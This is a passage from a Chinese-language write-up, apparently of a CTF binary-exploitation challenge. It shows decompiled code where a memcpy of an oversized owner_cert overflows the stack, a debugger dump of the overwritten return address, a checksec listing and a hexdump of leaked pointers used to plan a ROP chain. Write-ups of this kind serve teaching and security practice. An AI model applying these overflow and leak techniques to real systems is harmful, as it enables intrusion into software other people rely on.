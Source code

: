 ```cpp
if ( (unsigned int)EVP_DigestSignFinal(v9, v14, (__int64)n) == 1 )
{
    v15 = n[0];
    memcpy(out_buf, v12, n[0]);
    v16 = &out_buf[v15];
    v11 = 0;
    memcpy(v16, owner_cert, cnt);
}
```

由于我们之前进行了内存扩展，此时的`owner_cert`已经远超96字节。以`device_name`填满`0xff`为例子，此时的大小已经达到了`224`字节！于是必定可以进行栈溢出攻击。根据调试，我们塞入一定量后的`0xff`，并且拼入一些`B`字符到`device_name`，可以得到如下的结果:

```php
0x7fffb2493a88: 0xbdbfefbdbfefbdbf      0xbfefbdbfefbdbfef                 
0x7fffb2493a98: 0xefbdbfefbdbfefbd      0xbdbfefbdbfefbdbf                 
0x7fffb2493aa8: 0xbfefbdbfefbdbfef      0xefbdbfefbdbfefbd
0x7fffb2493ab8: 0xbdbfefbdbfefbdbf      [0x4242424242424242] <---- rpb
0x7fffb2493ac8: 0x432c424242424242      0x4141414141413d4e
                ^^^^^^^^^^^^^^^^^                     ^^^^
                ret address                        here is struct header
```

此时我们就有了栈溢出的攻击原语

#### 内存布局构造

检查sfm可以知道，这个程序开启了所有的保护:

```php
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

由于我们现在存在ROP的手段，同时又有一个泄露数据的办法，我们可以先检查泄露的数据中会包含什么。

```php
00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
*
00000040  00 00 00 00  00 00 00 00  21 00 00 00  00 00 00 00  │····│····│!···│····│
00000050  01 00 00 00  00 00 00 00  90 d9 cb 68  89 7f 00 00  │····│····│···h│····│
00000060  20 f4 d6 68  89 7f 00 00  21 00 00 00  00 00 00 00  │ ··h│····│!···│····│
00000070  02 00 00 00  00 00 00 00  df ee cb 68  89 7f 00 00  │····│····│···h│····│
00000080  c0 b2 d6 68  89 7f 00 00  21 00 00 00  00 00 00 00  │···h│····│!···│····│
00000090  20 a6 5a 7e  c4 55 00 00  10 cb 5a 7e  c4 55 00 00  │ ·Z~│·U··│··Z~│·U··│
000000a0  db 0b 89 64  00 00 00 00  21 00 00 00  00 00 00 00  │···d│····│!···│····│
000000b0  02 00 00 00  00 00 00 00  cf 10 cc 68  89 7f 00 00  │····│····│···h│····│
000000c0  c0 84 d6 68  89 7f 00 00  21 00 00 00  00 00 00 00  │···h│····│!···│····│
000000d0  02 00 00 00  00 00 00 00  48 11 cc 68  89 7f 00 00  │····│····│H··h│····│
000000e0  c0 6b d6 68  89 7f 00 00  21 00 00 00  00 00 00 00  │·k·h│····│!···│····│
000000f0  90 a4 5a 7e  c4 55 00 00  00 00 00 00  00 00 00 00  │··Z~│·U··│····│····│
00000100  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
```
